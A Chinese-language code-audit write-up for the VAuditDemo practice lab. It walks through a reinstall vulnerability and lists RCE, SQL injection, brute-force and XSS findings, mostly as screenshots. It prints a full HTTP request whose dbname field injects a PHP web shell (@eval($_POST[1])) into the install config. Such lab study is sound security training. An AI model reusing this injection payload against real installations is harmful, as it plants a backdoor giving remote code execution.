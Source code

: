 

# 代码审计

### VAuditDemo靶场

![image-20240925155611001](./assets/image-20240925155611001.png)

------



### 重装漏洞复现

>  相关代码

![image-20240925155830110](./assets/image-20240925155830110.png)

> 使用bp抓包



![image-20240925160740544](./assets/image-20240925160740544.png)

> 修改dataname

```php
//完整payload

POST /install/install.php HTTP/1.1
Host: 192.168.1.52:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 105
Origin: http://192.168.1.52:8081
Connection: keep-alive
Referer: http://192.168.1.52:8081/install/install.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

dbhost=127.0.0.1&dbuser=root&dbpass=root&dbname=test2;-- -";@eval($_POST[1]);//&Submit=%E5%AE%89%E8%A3%9D
```



```php
dbhost=localhost&dbuser=root&dbpass=root&dbname=test2;-- -";phpinfo();//&Submit=%E5%AE%89%E8%A3%9D

dbhost=127.0.0.1&dbuser=root&dbpass=root&dbname=test2;-- -";@eval($_POST[1]);//&Submit=%E5%AE%89%E8%A3%9D

exp;-- -";phpinfo();//
```

![image-20240925170408704](./assets/image-20240925170408704.png)

> 访问首页

![image-20240925170505142](./assets/image-20240925170505142.png)



------

### 远程代码执行漏洞

> 源码位置

![image-20240925193823973](./assets/image-20240925193823973.png)

> 执行展示

![image-20240925193711014](./assets/image-20240925193711014.png)

------

### 搜索框sql注入



> http://192.168.71.48:81/search.php?search=1

![image-20240925200443195](./assets/image-20240925200443195.png)

> 执行效果

![image-20240925200544589](./assets/image-20240925200544589.png)

------

### 登录框可爆破

![image-20240925203055163](./assets/image-20240925203055163.png)

------

### XSS

![image-20240925204103239](./assets/image-20240925204103239.png)

------

### 留言搜索框sql注入

![image-20240925204354762](./assets/image-20240925204354762.png)

------

